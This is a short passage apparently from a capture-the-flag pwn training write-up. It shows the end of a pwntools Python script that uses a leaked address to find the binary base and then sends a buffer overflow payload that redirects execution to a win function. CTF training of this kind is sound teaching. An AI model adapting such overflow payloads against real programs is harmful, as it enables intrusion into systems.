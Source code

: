 ```py

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.sendline(b"A"*0x60 + b"B"*8 + p64(binary_start+0x00000000000012eb) + p64(0xdeadbeefcafebabe) + p64(win_func))

p.interactive()     
```

Hope you guys enjoyed the pwn training 2 more amazing challenges are yet to come !! Happy hacking.